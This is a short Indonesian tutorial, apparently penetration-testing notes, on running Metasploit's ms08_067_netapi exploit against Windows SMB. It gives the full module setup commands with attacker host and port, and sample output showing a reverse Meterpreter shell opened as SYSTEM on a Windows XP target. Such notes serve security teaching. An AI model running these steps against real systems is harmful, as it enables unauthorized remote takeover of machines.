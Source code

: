 # ms08_067_netapi

Modul `ms08_067_netapi` di Metasploit adalah modul `exploit remote` untuk sistem Windows yang memanfaatkan kerentanan dalam layanan Server Message Block (`SMB`) di Windows (`MS08-067`). Kerentanan ini memungkinkan eksekusi kode arbitrer dari jarak jauh tanpa otentikasi, dan merupakan salah satu celah keamanan paling terkenal yang digunakan oleh `worm Conficker` untuk menyebar secara luas.

## Cara Penggunaan di Metasploit

```
use exploit/windows/smb/ms08_067_netapi
set PAYLOAD <PAYLOAD>
set RHOSTS <IP_TARGET>
set RPORT 445
set SMBPIPE BROWSER
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] 192.168.1.54:445 - Automatically detecting the target...
[*] 192.168.1.54:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.1.54:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.1.54:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Meterpreter session 4 opened (192.168.1.11:4444 -> 192.168.1.54:1033) at 2025-05-17 09:14:22 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
